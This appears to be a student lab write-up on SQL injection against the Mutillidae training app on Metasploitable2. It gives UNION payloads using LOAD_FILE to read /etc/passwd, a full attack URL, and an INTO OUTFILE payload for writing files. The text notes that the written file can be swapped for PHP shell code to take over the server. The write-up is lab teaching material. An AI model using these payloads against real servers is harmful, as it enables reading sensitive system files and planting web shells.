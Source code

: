 ## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![Screenshot 2023-06-10 225846](https://github.com/praveenst13/sqlinjection/assets/118787793/13f4a113-06fc-4d62-a8ec-6525c4ec1343)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).





## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
